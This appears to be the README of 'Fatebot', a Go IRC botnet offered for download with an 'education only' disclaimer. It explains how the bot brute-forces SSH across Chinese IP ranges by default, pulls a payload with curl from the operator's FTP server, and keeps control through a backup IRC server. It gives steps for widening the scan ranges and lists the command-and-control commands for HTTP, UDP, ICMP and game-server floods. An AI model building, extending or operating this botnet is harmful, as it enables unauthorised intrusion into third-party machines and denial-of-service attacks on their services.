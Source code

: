 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.4
This is my first IRC bot for launch DDoS attack, Mainly of scan target are anything that run linux and open default SSH port, This bot is write on Go language. For education purpose only. Please test it in your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by default SSH port<strong>(Scan on range of CHN network by default. You can add more or change it, If you want.)</strong>
and login by Brute-force attack. This botnet will use "curl" to get payload from FTP server, So... Please prepair your FTP server first, It's very important for infect process.

<strong>I scan on my private netowrk in SSH range, And comment a function of running session.(That's why bot is not join The server.)</strong>
<img src="assets/scanprocess.png" alt="SSH scan">

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_anme = "224.12" //224.12.0.0 - 224.255.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
		or
		case var_name:
				return ManageIP_range(ipRange, "")

(3) Then go to The "SSH_Conn" function, And add your constant ip range to The slice name "NetList".

		NetList := []string{
			chpn1, chpn2, chpn3, chpn4, chpn5, cgpn1, cgpn2, cgpn3,
			cgpn4, cgpn5, cgpn6, var_name,
		}

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.


<img src="assets/postfloodtraffic.png" alt="http post flood, dos example">

# Build payload
<img src="assets/howtobuild.gif" alt="how to build">

# Update Lists
<p><strong>Fatebot v0.1</strong> = Fatebot open release.</p>
<p><strong>Fatebot v0.2</strong> = Update get bot system information function and Add tutorial in main and scan file.</p>
<p><strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to self remove when running. And change some IRC commands that will type easier.</p>
<p><strong>Fatebot v0.2.2</strong> = Cut scan failed report for fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)</p>
<p><strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder not input The size or Put The over size.</p>
<p><strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.</p>
<p><strong>Fatebot v0.4</strong> = Update IRC Backup Server configuration for Backup our bots When The Main IRC Server got shutdown by accident. Add and remove some feature of info function.</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with curl.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information, For bot analysis.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Bot self-close.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
